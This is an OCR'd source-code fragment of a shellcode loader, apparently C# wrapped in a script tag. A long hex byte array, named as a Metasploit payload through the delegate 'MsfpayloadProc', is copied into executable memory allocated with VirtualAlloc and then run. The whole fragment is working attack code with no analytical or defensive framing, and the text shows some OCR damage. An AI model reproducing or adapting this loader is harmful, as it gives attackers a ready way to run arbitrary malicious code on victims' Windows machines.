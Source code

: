     0x4a,0xe1,0x85,0xeb,0x68,0x16,0x42,0xc9,0x6f,0xac,0xef,0x28,0x05,0x46,0x76,
    0x1b,0xa3,0xb9,0xe9,0xbf,0x1a,0x56,0x3e,0xdc,0x4d,0xf3,0x9f,0x1b,0x09,0x55,
    0x63,0x07,0xa3,0x59,0xbc,0x57,0xad,0x72,0x53,0x6b,0xff,0x49,0x10,0x47,0x21,
    0x81,0xb8,0x0e,0x98,0xec,0x03,0xa3,0x9f,0x90,0xa3,0x15,0xc4,0x7d,0x87,0x5c,
    0xcd,0xfe,0x32,0xca,0x11,0xf3,0x14,0x20,0xc8,0x92,0x36,0x88,0xe8,0xa1,0xad,
    0xac,0x46,0x19,0x9f,0x04,0x76,0x01,0x41,0x3d,0x3a,0x7d,0x80,0xa2,0x4e,0x24,
    0xcb,0x6b,0xe7,0xc9,0xc8,0xa4,0x01,0x17,0xb3,0x3a,0xd9,0x8e,0x9b,0x13,0x7b,
    0xbf,0x49,0xf3,0xa9,0x71,0x57,0x49,0x54,0x60,0x32,0xf4,0x4e,0xfa,0x76,0xf8,
    0x38,0x7c,0xb7,0x6b,0xac,0xc1,0x27,0x6b,0xae,0x80,0x10,0x85,0x98,0x61,0x42,
    0x1e,0x1e,0xb0,0x58,0x6b,0xff,0x92,0x68,0xa5,0x29,0x45,0x99,0x9c,0xa2,0xc0,
    0x29,0x53,0xc3,0x4b,0x76,0x72,0x17,0x60,0x3d,0xd8,0x11,0xce,0xc0,0xe6,0x34,
    0xa1,0x26,0x65,0x98,0x79,0xf6,0x58,0x92,0x41,0x04,0xa0,0xf0,0x3d,0xf1,0x44,
    0xb9,0x63,0x42,0x1a,0xac,0xad,0x67,0x98,0x8f,0x27,0x73,0xdd,0x54,0x61,0x65,
    0xd1,0x72,0xc5,0x0f,0x8a,0xd3,0x80,0x6a,0xc3,0xf6,0x44,0x2f,0x1a,0x6a,0xe6,
    0xfa,0x6c,0xa5,0x95,0x54,0x47,0x54,0xbf,0x66,0x78,0xfd,0x40,0x10,0x62,0xe8,
    0xc0,0x93,0xa8,0x80,0xb9,0x37,0x4c,0x47,0x7b,0x61,0xc1,0x44,0x13,0x17,0x7f,
    0xa2,0x73,0xcd,0x76,0x5f,0x2a,0x98,0x92,0x3e,0x09,0xa3,0x60,0xeb,0x41,0x1a,
    0xf4,0xcb,0x6f,0x96,0xc6,0x3c,0xf0,0xda,0xc6,0x1c,0x1c,0xb6,0xa0,0x64,0x67,
    0x7b,0xdc,0xe2,0x43,0xf1,0xee,0x3b,0x93,0xb9,0x95,0x29,0x01,0x97,0x8c,0x09,
    0x72,0xee,0x78,0x1a,0x13,0x60,0xa6,0xac,0x05,0x99,0x6c,0x28,0x81,0x29,0x5d,
    0x37,0x89,0x2a,0x3d,0xbf,0x0e,0xc7,0xeb,0x9f,0x44,0x1d,0xb3,0x4d,0x1a,0xbc,
    0xe2,0x22,0xb2,0xb3,0xa6,0x43,0x3e,0x46,0xc5,0x0d,0xba,0x87,0xd5,0x6d,0x70,
    0xfe,0x87,0x58,0x2c,0x4b,0x8c,0x2d,0x56,0x21,0x4a,0xbf,0x45,0x8c,0xd9,0x9e,
    0xa0,0xe4,0x20,0x6b,0x7f,0xfb,0xd0,0x1e,0x88,0x13,0x6e,0x11,0xe9,0xd9 };
    
    IntPtr handle = IntPtr.Zero;
    handle = VirtualAlloc(
    IntPtr.Zero,
    codeBytes.Length,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);
    
    try
    {
    Marshal.Copy(codeBytes, 0, handle, codeBytes.Length);
    MsfpayloadProc msfpayload
    = Marshal.GetDelegateForFunctionPointer(handle, typeof(MsfpayloadProc)) as MsfpayloadProc;
    msfpayload();
    }
    
    finally
    {
    VirtualFree(handle, 0, MEM_RELEASE);
    }
    }
    [DllImport("Kernel32.dll", EntryPoint = "VirtualAlloc")]
    
    public static extern IntPtr VirtualAlloc(IntPtr address, int size, ui ntallocType, uint protect);
    
    [DllImport("Kernel32.dll", EntryPoint = "VirtualFree")]
    
    public static extern bool VirtualFree(IntPtr address, int size, uint freeType);
    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;
    const uint MEM_RELEASE = 0x8000;
    </script>
    